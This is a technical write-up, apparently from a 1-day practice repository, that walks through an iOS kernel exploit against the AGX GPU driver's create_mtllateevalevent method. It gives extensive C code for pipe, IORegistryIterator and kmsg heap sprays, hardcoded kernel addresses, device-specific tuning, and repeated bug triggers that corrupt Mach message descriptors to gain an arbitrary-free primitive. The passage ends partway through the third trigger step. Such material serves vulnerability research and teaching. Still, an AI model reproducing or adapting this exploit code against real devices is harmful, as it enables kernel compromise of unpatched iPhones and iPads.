int exploit(void) {
    // different by device, retrieve it first and fail if unsuccessful
    extra_frees_for_device = IOGPU_get_command_queue_extra_refills_needed();
    if (extra_frees_for_device == -1)
    {
        printf("Exiting early, provide correct number 1-5 in the code for this device to proceed\n");
        return 1;
    }
    ...

}

int IOGPU_get_command_queue_extra_refills_needed(void)
{
    struct utsname u;
    uname(&u);
    
    // iPhone 6S
    // iPhone 7
    // iPhone 11
    // iPhone 12
    // iPhone 13
    // iPad 7th gen
    if (
       strstr(u.machine, "iPhone8,")
    || strstr(u.machine, "iPhone9,")
    || strstr(u.machine, "iPhone12,")
    || strstr(u.machine, "iPhone13,")
    || strstr(u.machine, "iPhone14,")
    || strstr(u.machine, "iPad7,")
    )
    {
        return 1;
    }
    // iPhone 8, X
    // iPhone XS, XR
    else if (
       strstr(u.machine, "iPhone10,")
    || strstr(u.machine, "iPhone11,")
    )
    {
        return 3;
    }
    
    printf("IOGPU_get_command_queue_extra_refills_needed(): Unknown device %s! May panic in generic part until correct number 1-5 is provided for this device!\n", u.machine);
    
    return -1;
}
```

## 2. Preparing kmsg, pipe, and IORegistryCreateIterator spray

Although I’ll explain the details later, we need to prepare three main components in advance. The one is space to store arrays of ports for arbitrary kernel memory freeing, second is port space to be filled via IORegistryCreateIterator calls, and finally the last is pipe buffer space. Additionally, to make spraying pipe properly, we need to increase the current process's file descriptor limit to 10240.

Let’s examine the kernel allocation size that will be occupied during spray.

For kmsg, allocations are made 0x1800(PORTS_COUNT) times from both  default.kalloc.16384 and data.kalloc.16384 zones, so each will occupy approximately **100M**(16384 * 0x1800 = 100663296) of kernel memory.

In the case of IORegistryCreateIterator spray, it occupies 0x20 bytes for IOUserIterator object, and internally, it occupies 0x50 bytes to create IORegistryIterator object. If we look strictly at IORegistryIterator objects containing vftable pointer, since we spray 0x1c000 times, it will occupy approximately **9M** (0x50 * 0x1c000 = 9175040).

Finally, we create total of 980 pipes and write (0x4000-1) bytes to each, resulting in 980 times allocation from data.kalloc.16384 zone. Therefore, it will occupy approximately **16M**(16384 * 980 = 16056320).

```cpp
mach_port_t *it = NULL;
mach_port_t notif_port = MACH_PORT_NULL;
mach_port_t *kheap_default_ports = NULL;
mach_port_t *kheap_data_ports = NULL;
uint8_t *IOSurfaceClient_array_buf = NULL;
int kheap_data_idx = -1;
int extra_frees_for_device = -1;
io_connect_t iogpu_connect = MACH_PORT_NULL;

#define PORTS_COUNT 0x1800
#define KMSG_SIZE 0x3F80 // the low 0x80 byte of this size will be copied to corrupt the message bits (setting 0x80000000, MACH_MSGH_BITS_COMPLEX)

int exploit(void) {
    ...
    kheap_data_ports = malloc(PORTS_COUNT * sizeof(mach_port_t));
    kheap_default_ports = malloc(PORTS_COUNT * sizeof(mach_port_t));
    mach_port_t *contained_ports = malloc(PORTS_COUNT * sizeof(mach_port_t));
    mach_port_t *ool_ports = malloc(0x4000);
    uint8_t *kheap_data_spray_buf = malloc(0x4000);
    memset(kheap_data_ports, 0, PORTS_COUNT * sizeof(mach_port_t));
    memset(kheap_default_ports, 0, PORTS_COUNT * sizeof(mach_port_t));
    memset(contained_ports, 0, PORTS_COUNT * sizeof(mach_port_t));
    memset(ool_ports, 0, 0x4000);
    memset(kheap_data_spray_buf, 0, 0x4000);
    increase_file_limit();

    // iterator stuffs
    int it_count = 0x1c000;   //TODO.. about 8 MB+ spray
	  it = malloc(it_count * sizeof(mach_port_t));

    // spray stuffs
    size_t pipe_count = 980;
    size_t pipe_buffer_size = 0x4000;
    uint8_t *pipe_buffer = (uint8_t *)malloc(pipe_buffer_size);
    void* recv_buf = malloc(pipe_buffer_size);
    ...
    
}

void increase_file_limit() {
    struct rlimit rl = {};
    getrlimit(RLIMIT_NOFILE, &rl);
    rl.rlim_cur = 10240;
    rl.rlim_max = rl.rlim_cur;
    setrlimit(RLIMIT_NOFILE, &rl);
}
```

## 3. Spraying

### 3-1. Pipe spray

To prevent panic caused by accessing unmapped (x8 + 0xfffff8) address at `__ZN9AGXShared23create_mtllateevaleventEPy+0xC8` when triggering vulnerability, It performs  pipe spray as shown in the code below.

The content of pipe buffer is important for controlling x8 register. To determine which port among the various kheap_data_ports is having an effect, I configured it to point to (ikm_header + 0x50).

It’s not for now, but later when we spray kmsg, repeated calls to `spray_data_kalloc_kmsg_single` will result in multiple allocations from data.kalloc.16384 zone.

We simply need to determine KHEAP_DATA_MAPPABLE_LOC value via profiling to ensure it points to that allocation site with high probability, and then set it to point to that location offset by +0x50.

```cpp
#define KHEAP_DATA_MAPPABLE_LOC 0xffffffe37da60000  //ikm_header

int exploit(void) {
    ...
    // STEP 1: spray pipe
    int *pipefds = create_pipes(&pipe_count);
    
    uint64_t x8 = (KHEAP_DATA_MAPPABLE_LOC+0x50);  // x8 will be Pointed here.  //com.apple.AGXG9P:__text:FFFFFFF005DC508C     LDR X0, [X8,#0x10]
    memset_pattern8(pipe_buffer, &x8, pipe_buffer_size);

    pipe_spray(pipefds, pipe_count, pipe_buffer, pipe_buffer_size, NULL);
    ...
}

int *
create_pipes(size_t *pipe_count) {
    // Allocate our initial array.
    size_t capacity = *pipe_count;
    int *pipefds = calloc(2 * capacity, sizeof(int));
    assert(pipefds != NULL);
    // Create as many pipes as we can.
    size_t count = 0;
    for (; count < capacity; count++) {
        // First create our pipe fds.
        int fds[2] = { -1, -1 };
        int error = pipe(fds);
        // Unfortunately pipe() seems to return success with invalid fds once we've
        // exhausted the file limit. Check for this.
        if (error != 0 || fds[0] < 0 || fds[1] < 0) {
            pipe_close(fds);
            break;
        }
        // Mark the write-end as nonblocking.
        //set_nonblock(fds[1]);
        // Store the fds.
        pipefds[2 * count + 0] = fds[0];
        pipefds[2 * count + 1] = fds[1];
    }
    assert(count == capacity && "can't alloc enough pipe fds");
    // Truncate the array to the smaller size.
    int *new_pipefds = realloc(pipefds, 2 * count * sizeof(int));
    assert(new_pipefds != NULL);
    // Return the count and the array.
    *pipe_count = count;
    return new_pipefds;
}

size_t
pipe_spray(const int *pipefds, size_t pipe_count,
        void *pipe_buffer, size_t pipe_buffer_size,
        void (^update)(uint32_t pipe_index, void *data, size_t size)) {
    assert(pipe_count <= 0xffffff);
    size_t write_size = pipe_buffer_size - 1;
    size_t pipes_filled = 0;
    for (size_t i = 0; i < pipe_count; i++) {
        // printf("writing now = 0x%x\n", i);

        // Update the buffer.
        if (update != NULL) {
            update((uint32_t)i, pipe_buffer, pipe_buffer_size);
        }
        
        int wfd = pipefds[2 * i + 1];
        int rfd = pipefds[2 * i];
        set_nonblock(wfd);
        set_nonblock(rfd);

        // Fill the write-end of the pipe with the buffer. Leave off the last byte.
        ssize_t written = write(wfd, pipe_buffer, write_size);
        // printf("written = 0x%x\n", written);
        if (written != write_size) {
            // printf("written = 0x%x, write_size = 0x%x\n", written, write_size);
            // This is most likely because we've run out of pipe buffer memory. None of
            // the subsequent writes will work either.
            break;
        }
        pipes_filled++;
    }
    return pipes_filled;
}

```

When performing pipe spray and triggering vulnerability, the location pointed to by x8 will look like the picture below.



### 3-2. IORegistryCreateIterator spray

Before triggering the vulnerability, spray is necessary to ensure we survive the running of lines 79 and 82 in `AGXShared::create_mtllateevalevent` without panicking, allowing for safe return after kernel function calls.



Using the code below, It sufficiently spray IORegistryIterator objects 0x1c000 times.

```cpp
uint64_t CPP_OBJ_PTR=0xffffffe0f98d8000;  //about 50%+ chance

int exploit(void) {
    ...
    // STEP 2: spray IORegistry_create_iterator
    //VTAB. FFFFFFF00714D988

    for(int i = 0; i < it_count; i++) {
		  it[i] = IORegistry_create_iterator();
	  }

#if ALWAYS_SURVIVE
    CPP_OBJ_PTR = tfp0_kread64(port_to_kobject(it[it_count-1000]) + 0x10);
    printf("cpp_obj_ptr = 0x%llx\n", CPP_OBJ_PTR);
#endif
    ...
}

mach_port_t IORegistry_create_iterator(void) {
	kern_return_t kr;
	io_iterator_t ite;
	kr = IORegistryCreateIterator(kIOMasterPortDefault, kIOServicePlane, 0, &ite);
	if (kr) {
        *(int *)1 = 0;
    }
	return ite;
}
```

Once sprayed, the structure will resemble the picture below.
Line 79 of `AGXShared::create_mtllateevalevent` will trigger call to `OSObject::retain` (`__ZNK8OSObject6retainEv`), and line 82 will trigger `IORegistryIterator::getNextObjectFlat` (`__ZN18IORegistryIterator17getNextObjectFlatEv`).

As these two functions are invoked arbitrarily strictly for the purpose of panic prevention and survival, so need not concern ourselves with their actual functionality.


### 3-3. kmsg spray

- Skipped description about some functions
- **`spray_default_kalloc_ool_ports`**: [https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#1-2-spray_default_kalloc_ool_ports0x4000-1-ool_ports](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#1-2-spray_default_kalloc_ool_ports0x4000-1-ool_ports)
- **`spray_data_kalloc_kmsg_single`**: [https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#1-3-spray_data_kalloc_kmsg_singlekheap_data_spray_buf-kmsg_size](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#1-3-spray_data_kalloc_kmsg_singlekheap_data_spray_buf-kmsg_size)

Now, prepare to arbitrarily free OOL port descriptors later, which were allocated from  default.kalloc.16384 zone via **`spray_default_kalloc_ool_ports`**. I constructed fake descriptor by [referencing the existing multicast_bytecopy exploit code](https://github.com/potmdehex/multicast_bytecopy/blob/fb744c2d1221b7f797cd790cd988cfcbd00d61eb/multicast_bytecopy/exploit/exploit.c#L155).

```c
(mach_msg_ool_ports_descriptor_t)  (address = [Address of OOL port descriptor to be arbitrarily freed], deallocate = 0x00000000, copy = 0x00000000, disposition = 0x00000011, type = 0x00000002, count = ...)
```

The payload includes values such as 0x1337 to determine if kmsg has been corrupted, CPP_OBJ_PTR to survive kernel panic via vtable function call, and 0 to ensure execution branches into specific path.

At first glance, it may be difficult to understand why the data is structured this way just by looking at the code.

Although I will go into more detail later, to briefly outline the plan: we use the increment primitive to detect kmsg corruption, thereby first identifying which specific port among the kheap_data_ports is susceptible to corruption. Next, we increment `msgh_descriptor_count` of `mach_msg_body_t` from 0 to 1, and then overflow the `count` of `mach_msg_ool_ports_descriptor_t` to set it to 0x7f8.

The `spray_data_kalloc_complex_kmsg_single` function is not significantly different from existing `spray_data_kalloc_kmsg_single`; the only modification is addition of `MACH_MSGH_BITS_COMPLEX` to `msgh_bits`.

```cpp
int exploit(void) {
    ...
    // STEP 3: spray kmsg (default.kalloc.0x4000 / data.kalloc.0x4000)
    // fake descriptor for free primitive
    memset(kheap_data_spray_buf, 0x42, 0x4000);
    memset(kheap_data_spray_buf, 0, sizeof(mach_msg_header_t));
    *(uint32_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t)) = 0;    //will be increased after trigger vuln
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t)) = KHEAP_DEFAULT_MAPPABLE_LOC; // free primitive target
    
    // *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint64_t)) = 0x000007F802110000; // disposition, size, etc
    // deallocate = 0x00000000(false), copy = 0x00000000(MACH_MSG_PHYSICAL_COPY), disposition = 0x00000011(MACH_MSG_TYPE_MOVE_SEND), type = 0x00000002(MACH_MSG_OOL_PORTS_DESCRIPTOR)
    *(uint32_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint64_t)) = 0x02110000;

    //ikm_header+0x20's value will be increased, +1
    // C++ vftable ptr to SURVIVE!
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint32_t) + sizeof(uint64_t)) = CPP_OBJ_PTR; //written at ikm_header+0x30
    // should be 0 to branch loc_FFFFFFF005DC5118; com.apple.AGXG9P:__text:FFFFFFF005DC50D8 08 02 00 B4                             CBZ             X8, loc_FFFFFFF005DC5118
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint32_t) + sizeof(uint64_t)*2) = 0x0;   //written at ikm_header+0x38

    //Needed to make ikm_header+0x30's value overflowed to match with 0x7f8;
    // C++ vftable ptr to SURVIVE!
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint32_t) + sizeof(uint64_t)*3) = CPP_OBJ_PTR; //written at ikm_header+0x40
    // should be 0 to branch loc_FFFFFFF005DC5118; com.apple.AGXG9P:__text:FFFFFFF005DC50D8 08 02 00 B4                             CBZ             X8, loc_FFFFFFF005DC5118
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint32_t) + sizeof(uint64_t)*4) = 0x0;   //written at ikm_header+0x48

    // determine if corrupted kmsg
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint32_t) + sizeof(uint64_t)*5) = 0x1337133713371337; //written at ikm_header+0x50
    // C++ vftable ptr to SURVIVE!
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint32_t) + sizeof(uint64_t)*7) = CPP_OBJ_PTR; //written at ikm_header+0x60
    // should be 0 to branch loc_FFFFFFF005DC5118; com.apple.AGXG9P:__text:FFFFFFF005DC50D8 08 02 00 B4                             CBZ             X8, loc_FFFFFFF005DC5118
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint32_t) + sizeof(uint64_t)*8) = 0x0;   //written at ikm_header+0x68

    for (int i = 0; i < PORTS_COUNT; ++i) {
        // KHEAP_DATA_BUFFERS
        kheap_data_ports[i] = spray_data_kalloc_complex_kmsg_single(kheap_data_spray_buf, KMSG_SIZE);
    }
    for (int i = 0; i < PORTS_COUNT; ++i)
    {
        // KHEAP_DEFAULT
        *ool_ports = port_new();
        contained_ports[i] = *ool_ports;
        mach_port_t *pp = spray_default_kalloc_ool_ports(0x4000, 1, ool_ports);
        kheap_default_ports[i] = pp[0];
        free(pp);
    }   

    notif_port = port_new();
    for (int i = 0; i < PORTS_COUNT; ++i)
    {
        mach_port_t prev;
        mach_port_request_notification(mach_task_self(), contained_ports[i], MACH_NOTIFY_NO_SENDERS, 0, notif_port, MACH_MSG_TYPE_MAKE_SEND_ONCE, &prev);
        mach_port_deallocate(mach_task_self(), contained_ports[i]);
    }
    //STEP 3 end
    ...   
}

mach_port_t spray_data_kalloc_complex_kmsg_single(uint8_t *data, unsigned int size)
{
    mach_port_t port = MACH_PORT_NULL;
    mach_port_options_t options = { .flags = MPO_INSERT_SEND_RIGHT };
    mach_msg_header_t *msg = (mach_msg_header_t *)data;
    
    memset(msg, 0, sizeof(mach_msg_header_t));
    msg->msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->msgh_bits  |= MACH_MSGH_BITS_COMPLEX;
    msg->msgh_size = size;
    
    mach_port_construct(mach_task_self(), &options, 0, &port);

    msg->msgh_remote_port = port;
    mach_msg_send(msg);
    
    return port;
}
```

Upon spraying kmsg, the structure will appear as shown in the diagram below. 

(Although I have color-coded each region, it may still be difficult to distinguish.)



## 4. First bug trigger: Identifying which port among kheap_data_ports is affected

Now, upon triggering the bug, some part of kmsg data corresponding to one of the many kheap_data_ports will be corrupted. Specifically, the location where the 0x1337... value was written will be incremented by 1 (becoming 0x1337133713371338).

Therefore, to identify the specific port with corrupted kmsg, we receive messages from each of  `kheap_data_ports`. If the value in the received message does not match 0x1337133713371337, we can determine that this port is controllable via vulnerability.

We then send the message again using `kheap_data_spray_buf` to maintain kmsg data.

```cpp
int exploit(void) {
    ...
    // STEP 4: Trigger vuln; will increase value in ikm_header+0x50 and determine which kmsg has been corrupted
    // 아이디어: port_receive_msg로 어떤포트를 컨트롤하는지 알아낸다음, 해당 포트를 유지한채 다시 매시지를 전송시켜 제대로 컨트롤하기 
    io_connect_t uc = IOGPU_init();
	for (int i = 0; i < 2048; ++i)
		IOGPU_create_mtllateeventevent(uc);
	IOGPU_create_mtllateeventevent(uc); //real trigger

    uint8_t msg_buf[0x4000];
    mach_port_t arb_free_holder = MACH_PORT_NULL;
    for (int i = 0; i < PORTS_COUNT; ++i) {
        memset(msg_buf, 0, KMSG_SIZE);
        port_receive_msg(kheap_data_ports[i], msg_buf, sizeof(msg_buf));

        if(*(uint64_t*)(msg_buf + 0x48) != 0x1337133713371337) {
            printf("kheap_data_idx: %08X\n", i);
            kheap_data_idx = i;
            arb_free_holder = kheap_data_ports[kheap_data_idx];

            send_data_kalloc_complex_kmsg_single(arb_free_holder, kheap_data_spray_buf, KMSG_SIZE); //resend
            break;
        }
    }
    printf("Survived, Determined which kmsg has been corrupted!\n");
    ...
}

uint32_t IOGPU_create_mtllateeventevent(io_connect_t uc)
{
    uint64_t Output[2] = {0};
    uint64_t OutputCount = 2;

    kern_return_t kr = IOConnectCallMethod(uc, 29, 0, 0, 0, 0, Output, &OutputCount, 0, 0);

    if (kr)
        return 0;
    
    return 1;
}

void port_receive_msg(mach_port_t p, uint8_t *buf, unsigned int n)
{
    mach_msg((mach_msg_header_t *)buf,
              MACH_RCV_MSG | MACH_MSG_TIMEOUT_NONE,
              0,
              n,
              p,
              0,
              0);
}

mach_port_t send_data_kalloc_complex_kmsg_single(mach_port_t port, uint8_t *data, unsigned int size)
{
    mach_msg_header_t *msg = (mach_msg_header_t *)data;
    
    memset(msg, 0, sizeof(mach_msg_header_t));
    msg->msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->msgh_bits  |= MACH_MSGH_BITS_COMPLEX;
    msg->msgh_size = size;

    msg->msgh_remote_port = port;
    mach_msg_send(msg);
    
    return port;
}
```

- Running result

```c
...
kheap_data_idx: 00000BED
Survived, Determined which kmsg has been corrupted!
```

Let's examine the execution flow in more detail when bug is triggered.

By arbitrarily manipulating v18 via pipe spray, we also gain control over v19, which is used for  increment primitive. As a result, the execution within `AGXShared::create_mtllateevalevent` proceeds as follows:

- Call `OSObject::retain` to survive the panic during kernel function calls.
- Increment the value at specific kernel address (0xffffffe37da60000+0x50). This is done to distinguish which port among the multiple kheap_data_ports has been corrupted.
- Call `IORegistryIterator::getNextObjectFlat` to survive panic during kernel function calls.
- Branch to LABEL_16 since the value of v20 is 0, because it prevents unnecessary operations and avoid other kernel panic.

Maybe should take a close look at the red section of the diagram to see exactly where increment primitive takes effect.

Additionally, by examining orange and sky blue sections (while still complex), It can understand where the pointers are directed to execute the calls necessary for surviving panic during kernel function execution.



## 5. Second Bug Trigger: Incrementing `mach_msg_body_t`'s `msgh_descriptor_count` to 1

Did you remember that previously wrote fake descriptor into kmsg to achieve free primitive?

To enable arbitrary freeing of  OOL descriptor port address via call to `mach_port_destroy`, must increment `msgh_descriptor_count` by 1.

This is necessary because, as observed in `ipc_kmsg_clean`, deallocation is only performed correctly when `msgh_descriptor_count` is passed as second argument to `ipc_kmsg_clean_body`.

```c
// xnu-8019.41.5/osfmk/ipc/ipc_kmsg.c:1842
static void
ipc_kmsg_clean(
	ipc_kmsg_t      kmsg)
{
	ipc_object_t object;
	mach_msg_bits_t mbits;

	/* deal with importance chain while we still have dest and voucher references */
	ipc_importance_clean(kmsg);

	mbits = kmsg->ikm_header->msgh_bits;
	object = ip_to_object(kmsg->ikm_header->msgh_remote_port);
	
	...

	if (mbits & MACH_MSGH_BITS_COMPLEX) { // <- THIS !!!!!
		mach_msg_body_t *body;

		body = (mach_msg_body_t *) (kmsg->ikm_header + 1);
		ipc_kmsg_clean_body(kmsg, body->msgh_descriptor_count,
		    (mach_msg_descriptor_t *)(body + 1));
	}
}
```

```c
// xnu-8019.41.5/osfmk/ipc/ipc_kmsg.c:1687
static void
ipc_kmsg_clean_body(
	__unused ipc_kmsg_t     kmsg,
	mach_msg_type_number_t  number,
	mach_msg_descriptor_t   *saddr)
{
	mach_msg_type_number_t      i;

	if (number == 0) {
		return;
	}

	for (i = 0; i < number; i++, saddr++) {
		switch (saddr->type.type) {
		...
		case MACH_MSG_OOL_PORTS_DESCRIPTOR: /* 2 */{
			ipc_object_t                    *objects;
			mach_msg_type_number_t          j;
			mach_msg_ool_ports_descriptor_t *dsc;

			dsc = (mach_msg_ool_ports_descriptor_t  *)&saddr->ool_ports;
			objects = (ipc_object_t *) dsc->address;

			if (dsc->count == 0) {
				break;
			}

			assert(objects != (ipc_object_t *) 0);

			/* destroy port rights carried in the message */

			for (j = 0; j < dsc->count; j++) {
				ipc_object_t object = objects[j];

				if (!IO_VALID(object)) {
					continue;
				}

				ipc_object_destroy(object, dsc->disposition);
			}

			/* destroy memory carried in the message */

			assert(dsc->count != 0);

			kfree_type(mach_port_t, dsc->count, dsc->address);
			break;
		}
		...
		default:
			panic("invalid descriptor type: (%p: %d)",
			    saddr, saddr->type.type);
		}
	}
}
```

By manipulating pipe buffer data once again, make possible to performs increment primitive to target `msgh_descriptor_count`, increasing its value to 1.

```cpp
int exploit(void) {
    ...
    // STEP 5: Trigger vuln; will increase mach_msg_body_t's msgh_descriptor_count count
    x8 = (KHEAP_DATA_MAPPABLE_LOC+0x20);  // x8 will be Pointed here.  //com.apple.AGXG9P:__text:FFFFFFF005DC508C     LDR X0, [X8,#0x10]
    memset_pattern8(pipe_buffer, &x8, pipe_buffer_size);
    for(int i = 0; i < pipe_count; i++) {
        read(pipefds[2 * i], recv_buf, pipe_buffer_size);
        write(pipefds[2 * i + 1], pipe_buffer, pipe_buffer_size-1);
    }
    IOGPU_create_mtllateeventevent(uc);
    printf("Increased mach_msg_body_t's msgh_descriptor_count to 1\n");
    ...
}
```

While continue to point to the same location to invoke the same kernel functions for panic survives, increment primitive is now directed specifically at the address where `msgh_descriptor_count` is stored.



## 6. Third Bug Trigger: Overflowing mach_msg_ool_ports_descriptor_t's count to 0x7F8

Finally, only remaining step is to set `count` of `mach_msg_ool_ports_descriptor_t` to 0x7F8.
As seen in the image from step 3-3, the value is currently 0xfa0997c.

```c
0xffffffe37da60024: 0xffffffe375bd0000 0xfa0997c002110000 <- count = 0xfa0997c
0xffffffe37da60034: 0x00000000ffffffe0 0xfa0997c000000000
```

By utilizing multiple threads to repeatedly trigger bug and performing increment primitive, we can cause overflow to set the value to 0x7F8. However, this process takes a fair amount of time; approximately 3 minutes.

```cpp
int exploit(void) {
    ...
